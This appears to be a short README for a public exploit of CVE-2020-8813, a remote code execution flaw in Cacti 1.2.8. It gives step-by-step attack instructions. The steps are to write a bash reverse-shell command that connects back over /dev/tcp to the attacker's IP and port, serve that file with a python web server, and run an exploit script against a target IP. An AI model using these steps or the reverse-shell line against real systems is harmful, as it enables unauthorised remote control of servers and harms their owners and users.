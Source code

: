 #CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

    eg.: echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

    eg.: python3 -m http.server

Fire the exploit

    Usage: python3 expoit.py TargetIP LocalIP ShellName

![image](https://user-images.githubusercontent.com/56730389/115649283-6a5f7b00-a2fd-11eb-848a-52fad8727f79.png)

